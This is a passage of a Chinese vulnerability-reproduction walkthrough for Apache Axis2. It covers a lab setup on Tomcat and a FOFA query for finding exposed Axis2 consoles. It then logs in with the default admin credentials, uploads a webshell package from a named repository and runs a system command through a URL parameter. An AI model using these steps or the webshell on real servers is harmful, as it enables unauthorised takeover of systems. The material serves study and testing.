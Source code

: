 ### 3.2环境搭建

```
tomcat + Axis2 war包部署
https://dlcdn.apache.org/axis/axis2/java/core/1.6.1/axis2-1.6.1-war.zip   

# 新版本竟然不支持不配置service的方式
如果不确定服务器运行时的axis2版本，可以通过webapps/axis2/WEB-INF/services查看，或者使用http://server:port/axis2/services/Version?wsdl获取版本号

fofa
title="Axis 2 - Home"
```

### 3.3漏洞复现

访问

```
http://192.168.0.78:8080/axis2/
```

![image-20220910123312503](https://picgo-1301783483.cos.ap-nanjing.myqcloud.com/imageimage-20220910123312503.png)

点击 Administration

![image-20220910123340127](https://picgo-1301783483.cos.ap-nanjing.myqcloud.com/imageimage-20220910123340127.png)

```
admin
axis2
```

上传.aar包 , 推荐一个axis2的webshell  

```
https://github.com/Svti/Axis2Shell ( 推荐 config.aar包 ) 
```

![image-20220910124051454](https://picgo-1301783483.cos.ap-nanjing.myqcloud.com/imageimage-20220910124051454.png)

![image-20220910124127190](https://picgo-1301783483.cos.ap-nanjing.myqcloud.com/imageimage-20220910124127190.png)

![image-20220910124118784](https://picgo-1301783483.cos.ap-nanjing.myqcloud.com/imageimage-20220910124118784.png)

查看参数

```
http://ip:8080/axis2/services/config?wsdl
```

![image-20220910132948620](https://picgo-1301783483.cos.ap-nanjing.myqcloud.com/imageimage-20220910132948620.png)

执行系统命令

```
http://ip:8080/services/config/exec?cmd=whoami
```
